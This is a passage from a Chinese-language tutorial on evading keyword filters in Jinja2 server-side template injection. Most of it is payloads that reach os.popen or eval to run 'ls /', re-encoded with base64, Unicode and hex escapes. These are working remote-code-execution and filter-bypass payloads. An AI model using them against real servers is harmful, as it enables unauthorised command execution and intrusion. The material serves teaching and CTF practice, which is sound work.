 例如

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

编码后为

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```

只要是字符串的，即payload中引号内的，都可以用编码绕过。同理还可以进行rot13，16进制编码。这一切都是基于我们可以执行命令实现的。

##### 利用Unicode编码绕过

这种方法网上没有，看了whoami大神和S神的笔记才知道还有这种方法。

例如

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

转换后为

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
```

当我们使用eval来执行命令时几乎所有命令都是置于引号之下的，所以我们利用对引号内的内容进行编码绕过的话是可以轻松绕过许多过滤的，例如对os，ls等的过滤。

##### 利用hex编码绕过

当过滤了`u`时，上面的Unicode与base64编码就不灵了，所以我们需要使用一种与前两种编码形式区别较大的编码来进行绕过

我们可以利用hex编码的方法进行绕过

例如

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

转换后为

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
```
